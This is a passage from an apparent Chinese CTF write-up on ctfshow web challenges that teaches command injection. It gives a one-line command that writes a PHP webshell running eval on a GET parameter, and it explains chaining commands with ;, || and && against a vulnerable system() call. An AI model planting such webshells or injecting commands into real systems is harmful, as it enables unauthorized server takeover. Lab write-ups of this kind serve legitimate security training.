 ![](/medias/ctfshow-web/12.png)

或者写webshell

```bash
code=echo "<?php highlight_file(__FILE__);eval($_GET[1]);?>" > 1.php
```

![13](/medias/ctfshow-web/13.png)

### 管道符绕过过滤

这里题目环境类似下面，考察linux shell环境怎么一句话执行多个命令

```php
<?php
    $cmd = $_GET['code'];
    system("ls $cmd");
```

可以使用`;`、`||`、`&&`等管道符来分割多条命令，这样一句话就可以执行多条命令

`;` （顺序执行，不管对错）

`||` （逻辑或，前一个失败才执行后一个）

`&&` （逻辑与，前一个成功才执行后一个）

好，知道了上面3点，看看下面命令如何执行
